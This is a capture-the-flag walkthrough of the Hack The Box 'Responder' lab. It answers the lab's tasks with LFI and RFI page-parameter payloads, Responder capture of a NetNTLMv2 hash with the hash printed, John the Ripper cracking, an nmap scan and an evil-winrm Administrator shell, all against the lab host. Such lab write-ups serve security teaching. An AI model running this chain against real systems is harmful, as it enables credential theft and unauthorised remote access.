


## Overview
---
Part of the "starting point"  boxes on HTB, Responder has a set of tasks with questions that provide a framework to walk through the machine. Responder introduces file inclusion concepts, NTLM challenge captures and offline password cracking, which are all ultimately leveraged to login on the target via remote management software with the obtained credentials. As this machine is part of the “starting point” category, many of the tasks are fundamental knowledge questions - I highly recommend researching them a bit if you do not know the answer instead of copy/pasting.

|                  |               |
| ---------------- | ------------- |
| **Release Date** | 06 Apr, 2022  |
| **Difficulty**   | Very Easy     |
| **OS**           | Windows       |
| **Created By**   | [TheCyberGeek](https://app.hackthebox.com/users/114053) |

---

## Tasks

---

### Task 1
---

When visiting the web service using the IP address, what is the domain that we are being redirected to?


We can start out by entering the machine IP address into a web browser to see where it redirects to.


If you ran into an error such as `DNS_PROBE_FINISHED_NXDOMAIN`, make sure you add the host mapping to your `/etc/hosts` file, e.g.:
```text
# Host addresses$
127.0.0.1  localhost$
127.0.1.1  parrot$
::1        localhost ip6-localhost ip6-loopback$
ff02::1    ip6-allnodes$
ff02::2    ip6-allrouters$
# Others$
10.129.95.234 unika.htb
```



unika.htb


---

### Task 2
---

Which scripting language is being used on the server to generate webpages?


We can go a couple ways to figure this out, one of the easier ones to start with is hovering over/navigating to the various pages and seeing if the URL contains any artifacts of a scripting language via extension.

In this case, not every page does, but if we change the page language it shows up in the URL:




PHP


---

### Task 3
---

What is the name of the URL parameter which is used to load different language versions of the webpage?


Since we changed language in the last step we can find the answer to this in the same URL.


page


---

### Task 4
---

Which of the following values for the page parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "mimikatz.exe"


Let's break each of these down:
- "french.html"
	- This is an example of intended behavour, since we are simply using one of the arguments that the website itself uses. No exploit here.
- "//10.10.14.6/somefile"
	- Since we are providing an IP address, this is an example of `Remote File Inclusion` - that is, trying to include a file from a remote host, instead of the local server.
- "../../../../../../../../windows/system32/drivers/etc/hosts"
	- Here we are looking at an example of `Local File Inclusion`, since we trying to include a file on the local machine (albeit after some directory navigation).
- "mimikatz.exe"
	- This is an example of trying to run a file on the target machine, or an attempted `Remote Code Execution`, though one that is very unlikely to do anything.


`../../../../../../../../windows/system32/drivers/etc/hosts`


---

### Task 5
---

Which of the following values for the page parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "./../../../../../../../windows/system32/drivers/etc/hosts", "mimikatz.exe"



`//10.10.14.6/somefile`


---

### Task 6
---

What does NTLM stand for?



New Technology Lan Manager


---

### Task 7
---

Which flag do we use in the Responder utility to specify the network interface?


We can check this out with the CLI tool using `responder --help`, or take a look at the tool's [GitHub page](https://github.com/SpiderLabs/Responder).


-I


---

### Task 8
---

There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as john, but the full name is what?


A quick search of "john password crack" comes back with the name of the tool that we desire.


John the Ripper


---

### Task 9
---

What is the password for the administrator user?


Well well, where shall we start on this one? The last task mentions NetNTMLv2 cracking and we have already discussed Remote File Inclusion, with the box being named after the tool `responder`, it sure seems to be pointing us in a certain direction.

We can start up responder using `sudo responder -I tun0` (interface will depend on your setup, use the one that represents your VPN connection if connecting over OpenVPN), which will start listening for events. 

Now we can use some knowledge from earlier and attempt to grab a local (remote for the server) file from our machine (the file does not have to exist, replace `<responder IP>` with the IP of your responder session):



And with that, we should see an event on our responder session, capturing the NTLM hash for the user:
```bash
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.95.234
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:4134f12fdb537d41:BB09782FA7CC72C6BA4B456557F2A217:0101000000000000805688A9C110DD01F0004BEED7F7DC6E0000000002000800300044005A00580001001E00570049004E002D0046005A004C003900380046004F005A0032004D004D0004003400570049004E002D0046005A004C003900380046004F005A0032004D004D002E00300044005A0058002E004C004F00430041004C0003001400300044005A0058002E004C004F00430041004C0005001400300044005A0058002E004C004F00430041004C0007000800805688A9C110DD0106000400020000000800300030000000000000000100000000200000741AC5E8FD3C7F23F14CA18C2923DD2F4508F45E5B5F2FA8F29CF12B0488D5400A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310035002E003100300035000000000000000000
```

Great! We've got the NTLM hash for the Administrator account now, we can save that to a file and use the other tool mention earlier (John the Ripper) to crack that password. I've stored the NTLM hash in `hash.txt` for reference.

John, at minimum, takes a wordlist and hash in order to begin cracking - however, in any scenario where we have more information on the type of hash, it can greatly improve speed to use some other the other tool options. Specifically in this case, since we know we have a `NetNTLMv2` hash, we can use the `--format=netntlmv2` flag to let the tool know (although for many formats the tool does a great job detecting, it's a good practice to provide the extra information if you know it):
```bash
[ice@parrot]─[~/Responder]$ john --wordlist=/usr/share/wordlists/crackyou.txt --format=netntlmv2 hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2026-07-10 23:34) 33.33g/s 136533p/s 136533c/s 136533C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

There we have it!


badminton


---

### Task 10
---

We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?


We can check out the services running on the machine with a quick `nmap` scan:
```bash
[ice@parrot]─[~/Responder]$ nmap -p- --reason --min-rate 5000 10.129.95.234
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-10 23:00 EDT
Nmap scan report for unika.htb (10.129.95.234)
Host is up, received echo-reply ttl 127 (0.073s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 127
5985/tcp open  wsman   syn-ack ttl 127

Nmap done: 1 IP address (1 host up) scanned in 26.62 seconds
```


5985


---

### Task 11
---

On which user's desktop is the flag located?


As we found in the last task this target is running WSMan, or Web Services for Management, which is the protocol used for Windows Remote Management (WinRM). WinRM can rely on NTLM authentication if enabled, quite convenient given the password we cracked earlier.

If using a Linux machine, we can connect to this by using the `evil-winrm` tool as such (`-i` being the target machine's IP address):
```bash
[ice@parrot]─[~/Responder]$ evil-winrm -i 10.129.95.234 -u Administrator -p badminton
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Now we can navigate around a bit - the question mentions a *user's desktop*, so we can start by going up a couple diretories to `C:\Users`, where we see:
```bash
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2022   5:35 PM                Administrator
d-----          3/9/2022   5:33 PM                mike
d-r---        10/10/2020  12:37 PM                Public
```

Well the only *user* here other than the admin we logged into is `mike`, so we can navigate to that desktop to check:
```bash
*Evil-WinRM* PS C:\Users\mike\Desktop> dir


    Directory: C:\Users\mike\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
```


mike


---

### Submit Single Flag
---

All that we have left now is to print out the flag, `cat flag.txt` should do the job!


ea81b7afddd03efaa0945333ed147fac


---

## Closing Thoughts
---

Responder introduces concepts and tools at a high level, while letting the user explore some of the intricacies of those tools/concepts on their own, which is necessary to finish the machine. I think it hits an interesting spot between guidance and being slightly misleading, as some of the targetted task questions, which are generally all relevant to the box at hand, are instead somewhat "red herring" style (e.g. introducing LFI, when the box only needs RFI to be completed). However, I do not believe that is a bad thing necessarily. In fact, I think getting used to the idea that not everything you find, or believe you have found, will end up in root access is very important to learn early in order to not get discouraged later. Rabbit holes are a fact of life, and we must learn when to go down them and when to check other options in order to be most efficient with our time.
---